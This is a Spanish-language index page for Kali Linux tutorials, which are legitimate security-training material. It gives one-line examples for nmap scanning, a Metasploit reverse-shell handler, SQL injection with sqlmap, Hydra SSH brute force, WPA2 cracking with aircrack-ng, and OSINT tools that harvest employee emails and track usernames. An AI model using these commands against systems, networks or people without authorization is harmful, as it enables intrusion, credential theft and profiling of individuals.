

Tutoriales de Kali Linux
Aprende paso a paso con comandos reales. Nuevos tutoriales cada semana.

Tus primeros comandos en Linux
Si eres nuevo en Kali, empieza aquí. Aprende a navegar por el sistema de archivos, gestionar permisos, actualizar el sistema y usar la terminal como un profesional.
sudo apt update && sudo apt upgrade -yTodos los Tutoriales
Nmap: Escaneo de Redes
El primer paso en cualquier auditoría. Aprende a descubrir hosts y servicios.
nmap -sV -sC -oA scan 192.168.1.1-sV: Detecta versiones. -sC: Scripts por defecto. -oA: Guarda output.
Leer Tutorial CompletoMetasploit: Primer Exploit
Configura Metasploit y lanza tu primer exploit contra una máquina vulnerable.
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
exploittheHarvester: Recolección
Obtén emails, subdominios y nombres de empleados de una empresa.
theHarvester -d empresa.com -b google -l 500SQLmap: Inyección SQL
Automatiza la detección y explotación de inyecciones SQL en aplicaciones web.
sqlmap -u "http://test.com?id=1" --dbs --batchSherlock: Buscar Usuarios
Rastrea un nombre de usuario en múltiples redes sociales y foros.
python3 sherlock.py usuario123Hydra: Fuerza Bruta
Ataca servicios de autenticación con ataques de diccionario.
hydra -l admin -P rockyou.txt ssh://192.168.1.1Aircrack-ng: Crackeo WPA
Captura el handshake y crackea la contraseña de una red WiFi WPA2.
aircrack-ng -w rockyou.txt -b MAC handshake.capBurp Suite: Interceptar Tráfico
Configura Burp Suite como proxy e intercepta peticiones HTTP para analizarlas.
burpsuite &
# Configurar proxy en navegador: 127.0.0.1:8080Maltego: Análisis de Vínculos
Descubre conexiones ocultas entre personas, dominios y organizaciones.
maltego
# Arrastrar entidad "Domain" al gráfico